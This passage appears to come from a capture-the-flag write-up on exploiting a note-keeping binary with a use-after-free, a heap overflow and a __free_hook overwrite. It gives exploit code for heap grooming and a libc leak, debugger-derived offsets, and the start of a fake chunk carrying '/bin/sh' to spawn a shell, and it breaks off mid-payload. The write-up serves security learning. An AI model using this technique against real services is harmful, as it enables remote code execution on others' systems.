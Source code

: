 ## Exploit - UAF + heap overflow + __free_hook
1. Try to construct heap structure that we need
    ```python!
    add_note(0, b'a'*8)    # index 0
    edit_note(0, 0x418, b'a')

    add_note(1, b'b'*8)    # index 1
    edit_note(1, 0x18, b'b')

    add_note(2, b'c'*8)    # index 2
    ```
    * `index 0` is for leaking the address of `libc`
    * `index 1` is to implement heap overflow
    * `index 2` is a fake chunk that we have to construct

2. Leak `libc` address and find `__free_hook`, `__libc_system`
* The reason that we set the data size of `index 0` be `0x418`(1048 in decimal) is because when we free it, it will be classified to `Unsorted bin` and the `fd` and `bk` will store the address of `libc`
![](https://imgur.com/6vhQrxv.png)
![](https://imgur.com/pTCDtZo.png)
Then we have to find where is `__libc_system` and `__free_hook`
    ```bash!
    pwndbg> p __libc_system
    $1 = {int (const char *)} 0x7f9614bac290 <__libc_system>
    pwndbg> p &__free_hook
    $2 = (void (**)(void *, const void *)) 0x7f9614d48e48 <__free_hook>
    ```
    The offset is
    `Unsorted bin fd`: $0x7f9614d46be0 - 0x7f9614b5a000 = 0x1ecbe0$
    `__libc_system`: $0x7f9614bac290 - 0x7f9614b5a000 = 0x52290$
    `__free_hook`: $0x7f9614d48e48 - 0x7f9614b5a000 = 0x1eee48$
    
    So, we delete `index 0` first, and try to use `show_note` function to receive the `Unsorted bin fd`
    ```python!
    delete_note(0)
    show_note()
    r.recvuntil(b'data:')
    libc = (u64(r.recv(8)) >> 8) - 0x1ecbe0 - 0xa000000000000
    info(f"libc address: {hex(libc)}")
    free_hook_addr = libc + 0x1eee48
    info(f"__free_hook address: {hex(free_hook_addr)}")
    libc_sys_addr = libc + 0x52290
    info(f"__libc_system address: {hex(libc_sys_addr)}")
    ```
3. Construct fake chunk by using heap overflow
    ```python!
    data = b'/bin/sh\x00'.ljust(0x10, b'b')
    fake_chunk = flat(
        0, 0x21,
        b'cccccccc', b'cccccccc',
        free_hook_addr
    )
